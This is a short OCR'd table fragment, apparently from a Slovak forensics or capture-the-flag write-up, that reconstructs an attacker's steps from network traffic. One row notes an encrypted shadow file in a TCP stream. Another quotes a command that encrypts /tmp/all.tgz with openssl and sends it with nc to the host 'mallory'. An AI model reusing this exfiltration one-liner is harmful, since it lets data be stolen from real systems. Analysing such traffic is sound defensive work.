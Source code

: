 |                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111988<br>-<br>112000 | TCP Stream | máme [shadow.enc](shadow.enc)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 112001                | Command    | cat /tmp/all.tgz \| openssl enc -aes-256-cbc -e -a -salt -pbkdf2 -iter 10 -pass file:/tmp/secret \| nc mallory 42125<br>(útočnik zašifroval rovankým pinkódom aj archív /tmp/all.tgz a exfiltroval na port 42125)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |